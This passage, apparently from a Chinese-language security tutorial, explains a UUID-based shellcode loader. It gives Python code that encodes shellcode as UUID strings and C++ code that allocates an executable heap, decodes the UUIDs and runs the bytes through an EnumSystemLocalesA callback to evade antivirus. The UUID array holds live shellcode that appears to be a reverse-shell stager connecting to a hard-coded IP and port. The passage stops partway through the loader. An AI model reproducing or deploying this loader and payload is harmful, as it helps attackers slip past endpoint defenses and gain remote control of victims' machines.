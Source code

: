 ```python
    # 为每组创建一个 UUID（GUID）
    uuid_chunk = uuid.UUID(bytes_le=chunk)
    uuid_list.append(str(uuid_chunk))

#输出uuid的c语言数组形式
uuids = "const char* uuids[] = {"
for uuid in uuid_list:
    uuids = uuids + f"\"{uuid}\","
uuids = uuids[:-1] + "};"
print(uuids)
```



## uuid写入shellcode

以下代码的主要目的是通过UUID加载并执行shellcode。代码的关键步骤如下：

1. 定义一个包含转换为UUID形式的shellcode字符串数组`uuids`。
2. 创建一个具有执行权限的堆`hc`。
3. 在堆上分配一块可执行内存`buffer`。
4. 检查内存分配是否成功，如果失败则输出错误信息并返回。
5. 将UUID值转换回原始的shellcode并将其存储在`buffer_backup`地址。
6. 使用`EnumSystemLocalesA`函数调用转换回的shellcode。这是通过将shellcode作为处理每个枚举到的区域设置信息的回调函数的地址传递给`EnumSystemLocalesA`函数实现的。
7. 关闭内存句柄。

```cpp
#include <Windows.h>
#include <Rpc.h>
#include <iostream>
#pragma comment(lib, "Rpcrt4.lib")
using namespace std;

//用于存放shellcode转的uuid的数组
const char* uuids[] = { "008fe8fc-0000-3160-d264-8b523089e58b","528b0c52-8b14-2872-0fb7-4a2631ff31c0","7c613cac-2c02-c120-cf0d-01c74975ef52","10528b57-428b-013c-d08b-407885c0744c","8b50d001-2058-488b-1801-d385c9743c31","348b49ff-018b-31d6-c0c1-cf0dac01c738","03f475e0-f87d-7d3b-2475-e0588b582401","0c8b66d3-8b4b-1c58-01d3-8b048b01d089","5b242444-615b-5a59-51ff-e0585f5a8b12","ffff80e9-5dff-3368-3200-00687773325f","774c6854-0726-e889-ffd0-b89001000029","685054c4-8029-006b-ffd5-6a0a68c0a82f","0002689b-5c11-e689-5050-505040504050","df0fea68-ffe0-97d5-6a10-56576899a574","85d5ff61-74c0-ff0a-4e08-75ece8670000","6a006a00-5604-6857-02d9-c85fffd583f8","8b367e00-6a36-6840-0010-0000566a0068","e553a458-d5ff-5393-6a00-5653576802d9","d5ff5fc8-f883-7d00-2858-68004000006a","0b685000-0f2f-ff30-d557-68756e4d61ff","ff5e5ed5-240c-850f-70ff-ffffe99bffff","29c301ff-75c6-c3c1-bbf0-b5a2566a0053","9090d5ff-9090-9090-9090-909090909090" };


int UuidLoader() {
    
    // 创建一个具有执行权限的堆
    HANDLE hc = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);

    // 在堆上分配一块可执行内存
    void* buffer = HeapAlloc(hc, 0, 0x100000);

    // 检查内存分配是否成功，如果失败则输出错误信息并返回0
    if (buffer == NULL) {
        cout << "内存申请失败！" << endl;
        return 0;
    }

    
    PBYTE buffer_backup = (PBYTE)buffer;  //定义一个存储uuid转换成的二进制字节序列(shellcode)
    int elems = sizeof(uuids) / sizeof(uuids[0]);  //获取uuid数组元素的个数

```